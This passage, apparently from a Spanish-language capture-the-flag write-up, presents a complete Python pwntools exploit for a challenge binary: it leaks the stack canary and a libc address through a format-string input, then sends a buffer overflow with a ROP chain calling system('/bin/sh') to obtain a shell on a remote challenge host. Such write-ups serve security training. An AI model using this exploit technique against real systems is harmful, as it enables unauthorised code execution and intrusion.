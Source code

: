 ## Script completo

El script nos quedará así:

```python
#! /bin/python3
import re
from pwn import *

libc = ELF('libc-2.31.so')

def start():
    if args.REMOTE:
        return remote('35.234.95.200', 31484)
    else:
        return process('./chall_patched')

io = start()

#1er input -> LEAK CANARY - PRINTF
io.recvuntil(b"$ ")
io.sendline(b"%9$lx")
leaks = io.recvline().decode()

canary = re.search(r'^[0-9a-fA-F]+', leaks).group() # Capturamos el valor del canary
canary = int(canary, 16)

printf_leak = re.search(r'0x[0-9a-fA-F]+', leaks).group()   # Capturamos el valor del leak
printf_leak = int(printf_leak, 16)

log.info(f"Canary -> {hex(canary)}")
log.info(f"Printf -> {hex(printf_leak)}")

#Calculamos la dir base de libc
base_libc = printf_leak - libc.symbols["printf"]
log.info(f"Base Libc -> {hex(base_libc)}")

#Buscamos la cadena /bin/sh
bin_sh = base_libc + next(libc.search(b'/bin/sh'))
log.info(f"Bin_sh -> {hex(bin_sh)}")

#Calculamos la direccion de system
system = base_libc + libc.symbols['system']
log.info(f"System -> {hex(system)}")

#2o input
io.recvuntil(b"$ ")

payload = b'A'*24
payload += p64(canary)
payload += b'B'*8
payload += p64(base_libc + 0x23b6a) #0x0000000000023b6a: pop rdi; ret;
payload += p64(bin_sh)
payload += p64(base_libc + 0x22679) #0x0000000000022679: ret;
payload += p64(system)
payload += b'C'*16

io.sendline(payload)

io.interactive()
```

Ejecutamos y deberíamos obtener una shell. Este ejercicio es interesante para practicar cómo bypasear una protección de tipo Canary. Si te ha gustado, ¡nos vemos en el siguiente post!